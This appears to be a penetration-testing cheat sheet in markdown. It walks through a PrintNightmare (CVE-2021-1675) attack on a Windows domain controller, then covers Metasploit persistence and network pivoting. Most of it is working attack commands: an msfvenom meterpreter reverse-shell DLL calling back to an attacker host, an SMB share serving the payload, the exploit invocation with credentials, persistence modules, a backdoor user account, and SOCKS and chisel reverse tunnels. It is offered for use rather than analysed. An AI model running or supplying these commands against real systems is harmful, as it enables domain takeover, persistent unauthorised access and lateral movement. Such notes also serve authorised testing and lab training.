 # [PrintNightmare](https://github.com/cube0x0/CVE-2021-1675.git) Attack
```powershell
rpcdump.py @<DC IP> | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
# DC is vulnerable
```
- Create a malicious DLL file using msfvenom
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=8888 -f dll > shell.dll
```
- Set up Metasploit using exploit/multi/handler
- Now, setup a file share to parse the shell.dll file
```bash
smbserver.py share `pwd` -smb2support
```
- All set, now run the exploit script.
```bash
python3 CVE-2021-1675.py <DC>/<user>:<Password>@<DC IP> '\\<LHOST>\share\shell.dll'
```
# Maintaining Access (using Metasploit)
- #### Persistence Scripts
   - run persistence -h
   - exploit/windows/local/persistence
   - exploit/windows/local/registery_persistence
- #### Scheduled Tasks
   - run scheduleme
   - run schtaskabuse
- #### Add a User
   - Net user badboy password123 /add

# Pivoting
#### Using Proxychains
```powershell
ssh -f -N -D 9050 -i pivot root@x.x.x.x

# -f = background the ssh connection
# -N = Don't execute remote commands.
# -D = For bind the port
# 9050 = Proxy port from proxychians.conf file
```
- Now run commands using `proxychains`
```bash
proxychains nmap x.x.x.x -sT
```
#### using sshuttle
```bash
sshuttle -r root@10.10.10.33 10.10.10.0/24 --ssh-cmd "ssh -i pivot"
```
Now we can run commands directly without using proxychains in front of commands.
#### Using chisel
- On the local machine:
```bash
./chisel server -p 8000 --reverse
```
- On target host:
```bash
./chisel client <LHOST>:8000 R:socks
```
